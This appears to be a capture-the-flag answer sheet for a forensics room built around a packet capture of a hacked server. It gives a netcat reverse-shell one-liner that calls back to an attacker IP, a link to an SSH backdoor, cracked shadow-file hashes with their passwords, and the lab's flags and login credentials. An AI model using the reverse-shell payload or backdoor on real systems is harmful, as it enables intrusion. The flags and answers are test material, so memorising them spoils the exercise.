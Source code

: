 ## Overpass2Hacked

### overpass2hacked.pcap

### Task 1
```
 1. What was the URL of the page they used to upload a reverse shell? 
 => /development/
```

```
 2. What payload did the attacker use to gain access?
 => exec("rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>&1|nc 192.168.170.145 4242 >/tmp/f")
```

```
3. What password did the attacker use to privesc?
=> whenevernoteartinstant
```

```
4. How did the attacker establish persistence?
=> https://github.com/NinjaJc01/ssh-backdoor
```

```
5. Using the fasttrack wordlist, how many of the system passwords were crackable?
=> 4
```

```
$6$oRXQu43X$WaAj3Z/4sEPV1mJdHsyJkIZm1rjjnNxrY5c8GElJIjG7u36xSgMGwKA2woDIFudtyqY37YCyukiHJPhi4IU7H0:secuirty3
$6$.SqHrp6z$B4rWPi0Hkj0gbQMFujz1KHVs9VrSFu7AU9CxWrZV7GzH05tYPL1xRzUJlFHbyp0K9TAeY1M6niFseB9VLBWSo0:secret12
$6$B.EnuXiO$f/u00HosZIO3UQCEJplazoQtH8WJjSX/ooBjwmYfEOTcqCAlMjeFIgYWqR5Aj2vsfRyf6x1wXxKitcPUjcXlX/:abcd123
$6$SWybS8o2$9diveQinxy8PJQnGQQWbTNKeb2AiSp.i8KznuAjYbqI3q04Rf5hjHPer3weiC.2MrOj2o1Sw/fd2cu0kC6dUP.:1qaz2wsx
```

### Task 2
```
1.  What's the default hash for the backdoor? 
=> bdd04d9bb7621687f5df9001f5098eb22bf19eac4c2c30b6f23efed4d24807277d0f8bfccb9e77659103d78c56e66d2d7d8391dfc885d0e9b68acd01fc2170e3
```

```
2. What's the hardcoded salt for the backdoor?
=> 1c362db832f3f864c8c2fe05f2002a05
```

```
3. What was the hash that the attacker used? - go back to the PCAP for this!
=> 6d05358f090eea56a238af02e47d44ee5489d234810ef6240280857ec69712a3e5e370b8a41899d0196ade16c0d54327c5654019292cbfe0b5e98ad1fec71bed
```

#### Hash : 6d05358f090eea56a238af02e47d44ee5489d234810ef6240280857ec69712a3e5e370b8a41899d0196ade16c0d54327c5654019292cbfe0b5e98ad1fec71bed:1c362db832f3f864c8c2fe05f2002a05

```
4. Crack the hash using rockyou and a cracking tool of your choice. What's the password?
=> november16
```

### Task 3
```
1. The attacker defaced the website. What message did they leave as a heading? 
=> H4ck3d by CooctusClan
```

```
2. What's the user flag?
=> thm{d119b4fa8c497ddb0525f7ad200e6567}
```

```
3. What's the root flag?
=> thm{d53b2684f169360bb9606c333873144d}
```
### Username : james
### Password : november16

### SSH Backdoor : 0.0.0.0:2222